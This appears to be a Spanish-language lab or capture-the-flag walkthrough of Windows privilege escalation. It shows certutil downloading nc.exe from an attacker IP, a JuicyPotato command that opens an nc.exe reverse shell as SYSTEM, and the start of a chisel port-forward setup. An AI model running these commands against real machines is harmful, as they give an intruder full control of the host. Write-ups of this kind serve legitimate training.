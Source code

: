 _NOTA: Identifica el sistema operativo con systeminfo para obtener el CLSID_

```bash
whoami      
nt authority\system
```

### NC.EXE REVERSE SHELL

Ahora vamos a escalar descargando `nc.exe` con `certutil` y ejecutar comandos privilegiados con `JuicyPotato.exe`.

```bash
certutil.exe -f -urlcache -split http://10.10.14.2/nc.exe
```

Generamos un listener
   
```bash
rlwrap nc -lvnp 4564
```

Ejecutamos `JuicyPotato` activando la reverse shell desde la máquina víctima

```bash
JuicyPotato.exe -t * -l 1231 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\priv\nc.exe -e cmd.exe 10.10.14.2 4566" -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

_NOTA: Identifica el sistema operativo con systeminfo para obtener el CLSID_

```bash
#OUTPUT
whoami
nt authority\system
```

## ESCALADA POR CHISEL

Para este último ejercicio de escalada de privilegios vamos a crear un `port forwarding` por medio de la herramienta [chisel](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz), para luego crear un usuario y asignarle privilegios, para obtener por medio de `cme` y `wmicexec.py` una consola interactiva con un usuario administrador.

Verificamos si el puerto `445` se encuentra habilitado en la máquina víctima.

```bash
netstat -nat

Active Connections

  Proto  Local Address          Foreign Address        State           Offload State
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost      
```

Descargamos y descomprimimos `chisel.exe`

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
gunzip chisel_1.7.7_windows_amd64.gz
mv chisel_1.7.7_windows_amd64 chisel.exe
```
